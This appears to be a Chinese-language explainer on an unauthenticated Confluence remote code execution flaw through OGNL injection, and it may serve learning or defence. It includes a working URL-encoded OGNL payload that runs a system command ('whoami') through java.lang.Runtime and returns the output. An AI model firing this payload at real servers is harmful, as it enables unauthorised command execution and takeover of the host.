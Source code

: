 ### 讲讲 Confluence RCE

**1. 漏洞原理**

这个漏洞的本质是一个**未授权的远程代码执行（RCE）漏洞**。它存在于 Confluence 的**管理控制台**中，特别是在处理**配置文件**时

攻击者可以利用 Confluence 的某些配置页面（通常与**数据源配置**或**诊断**相关），向服务器发送一个特制的 HTTP 请求。这个请求中包含一个恶意的**OGNL（Object-Graph Navigation Language）表达式**

- **OGNL** 是一个强大的表达式语言，常用于 Java 应用中，可以用来在运行时操作 Java 对象
- **攻击者利用**：攻击者利用了 Confluence 在处理某些未授权页面时，OGNL 表达式没有被正确沙盒化（sandboxed）或过滤的缺陷。这使得攻击者可以在不进行身份验证的情况下，直接传入 OGNL 表达式，并让服务器执行
- **执行恶意代码**：当服务器解析并执行这个恶意的 OGNL 表达式时，攻击者就可以调用 `java.lang.Runtime` 等 Java 类，从而在服务器上执行任意的系统命令

这个漏洞的危害性极高，因为它完全不需要任何身份验证，攻击者可以直接在网络上扫描到存在漏洞的 Confluence 实例，然后利用它进行攻击

**2. 漏洞利用方式**

利用这个漏洞通常非常简单，因为攻击者只需要向特定的 URL 发送一个带有恶意 OGRL 表达式的 HTTP 请求即可

一个典型的利用过程如下：

1. **探测目标**：攻击者首先会扫描互联网，寻找暴露在公网上的 Confluence Data Center 和 Server 实例

2. **发送恶意请求**：攻击者向 Confluence 服务器的某个特定管理 URL 发送一个带有恶意 OGNL Payload 的 GET 或 POST 请求。例如，请求中可能包含如下代码：

   ```apl
   ?diagnostics=x&x=x'%2b#_memberAccess.allowPrivateAccess%3dtrue%2c#_memberAccess.allowProtectedAccess%3dtrue%2c#_memberAccess.allowPackageProtected%3dtrue%2c#_memberAccess.allowStaticMethodAccess%3dtrue%2c#cmd%3d'whoami'%2c#a%3d@java.lang.Runtime@getRuntime().exec(#cmd).getInputStream().readAllBytes()%2c#out%3dnew+java.lang.String(#a)%2c#_memberAccess.allowPrivateAccess%3dfalse%2c#_memberAccess.allowProtectedAccess%3dfalse%2c#_memberAccess.allowPackageProtected%3dfalse%2c#_memberAccess.allowStaticMethodAccess%3dfalse%2c#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter().print(#out)%2c#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter().flush()
   ```

   - **OGNL 表达式解析**：上面的表达式通过反射调用了 `java.lang.Runtime.exec()` 方法，并执行了 `whoami` 命令，最后将命令执行结果写入到 HTTP 响应中，返回给攻击者

3. **获取控制权**：如果攻击成功，攻击者就可以在服务器上执行任意命令，例如下载恶意文件、创建新的用户、或者将服务器作为跳板攻击内网